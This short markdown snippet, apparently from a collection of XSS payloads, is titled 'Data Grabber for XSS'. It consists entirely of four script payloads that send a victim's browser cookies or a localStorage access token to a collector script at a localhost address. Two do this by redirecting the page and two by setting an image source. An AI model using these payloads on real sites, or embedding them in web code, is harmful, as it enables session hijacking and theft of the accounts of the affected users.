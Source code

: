 # Data Grabber for XSS

- `<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>`
- `<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>`
- `<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>`
- `<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>`